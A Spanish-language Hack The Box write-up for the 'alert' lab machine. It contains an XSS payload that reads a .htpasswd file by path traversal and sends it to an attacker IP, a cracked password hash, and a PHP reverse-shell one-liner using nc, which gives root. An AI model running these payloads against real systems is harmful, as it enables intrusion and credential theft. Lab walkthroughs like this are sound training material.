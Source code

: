 ```yaml
---
layout: single
title: alert - Hack The Box
excerpt: "Para resolver esta máquina es demasiado fácil. Empezamos con un escaneo con Nmap y hacemos un ataque de XSS a la página, subimos un archivo donde esta el código con el que realizamos el ataque resivimos ciertos hash."
date: 2020-10-24
classes: wide
header:
  teaser: /assets/images/htb-writeup-alert/portada.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:
  - nmap
  - xss
  - python-serv
  - john
  - escalada de privilegio
---
```


![](/assets/images/htb-writeup-alert/portada.png)

Para resolver esta máquina es demasiado fácil. Empezamos con un escaneo con Nmap y hacemos un ataque de XSS a la página, subimos un archivo donde esta el código con el que realizamos el ataque resivimos ciertos hash. 

## Portscan

```
sudo nmap -p- --open -sCV 10.10.11.44
[sudo] contraseña para noes:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-26 00:00 CST
Nmap scan report for 10.10.11.44
Host is up (0.14s latency).
Not shown: 63807 closed tcp ports (reset), 1726 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
|_  256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://alert.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 108.51 seconds
```

## http://alert.htb/


![](/assets/images/htb-writeup-alert/screenshot.png)



## subimos este codigo con la extencion md



```
───────┼──────────────────────────────────────────────────────────────────────────────────────
   1   │ <script>
   2   │ fetch("http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.ale
       │ rt.htb/.htpasswd")
   3   │   .then(response => response.text())
   4   │   .then(data => {
   5   │     fetch("http://10.10.14.64:8888/?file_content=" + encodeURIComponent(data));
   6   │   });
   7   │ </script>
```


![](/assets/images/htb-writeup-alert/screenshot2.png)

## ya que hice todo esto tendre un link con el subire a contact us



![](/assets/images/htb-writeup-alert/screenshot3.png)



```
   1   │ python3 -m http.server 8888
   2   │ Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
   3   │ 10.10.14.64 - - [26/Jan/2025 01:26:12] "GET /?file_content=%0A HTTP/1.1" 200 -
   4   │ 10.10.11.44 - - [26/Jan/2025 01:26:37] "GET /?file_content=%3Ch1%3EMessages%3C%2Fh1%3E%3Cul%3E%3Cli%3E%3Ca%20href%3D%27
       │ messages.php%3Ffile%3D2024-03-10_15-48-34.txt%27%3E2024-03-10_15-48-34.txt%3C%2Fa%3E%3C%2Fli%3E%3C%2Ful%3E%0A HTTP/1.1"
       │  200 -
```


## ya que recibimos la coneccion revisare el file_conten
bueno en ralidad es un url encode pero me gusta darme drama
- url encode
- hash

![](/assets/images/htb-writeup-alert/screenshot4.png)


despudes de decoficarlo que era mas que claro url encode lo llavare a john para decifrarlo


```
  12   │ john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long hash.txt
  13   │ Using default input encoding: UTF-8
  14   │ Loaded 1 password hash (md5crypt-long, crypt(3) $1$ (and variants) [MD5 32/64])
  15   │ Press 'q' or Ctrl-C to abort, almost any other key for status
  16   │ manchesterunited (albert)     
  17   │ 1g 0:00:02:03 DONE (2025-01-26 15:42) 0.008099g/s 22.64p/s 22.64c/s 22.64C/s andrea1.
       │ .charley
  18   │ Use the "--show" option to display all of the cracked passwords reliably
  19   │ Session completed
```

usuario: alberto
usuario: manchesterunited

nos conectamos por ssh

## escalada de privilegio 	DEJARE DE SUBIR IMAGENES PORQUE TARDO MAS




```
ss -tuln
```
revisamos los proceces en la maquina y vemos el puerto 8080 y es mas que claro que tendremos que hacer un simple Local port forwarding

```
ssh -L 8080:127.0.0.1:8080 albert@10.10.11.44
```
![](/assets/images/htb-writeup-alert/fotos5.png)

```
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f |/bin/bash -i 2>&1 | nc 10.10.16.41 7878 >/tmp/f");?>
```
y si ejcutamos ese comando recibimos una conexion con root

## la maquina esta muy biene explicada aun que deje de subi imagenes casi a mitad de la maquina ya que me quita mas tiempo es mas facil copiar y pegar y como hago la maquina y la subi a mi pagina se me hace mas dificil tomar captura y cuidar que no suba algo que no quiero de mi maquina  y cabe recalcar que estoy en un torneo de hackthebox cualquier duda de la maquina con gunto les doy una explicaion mis redes estan en el inicio de mi pagina
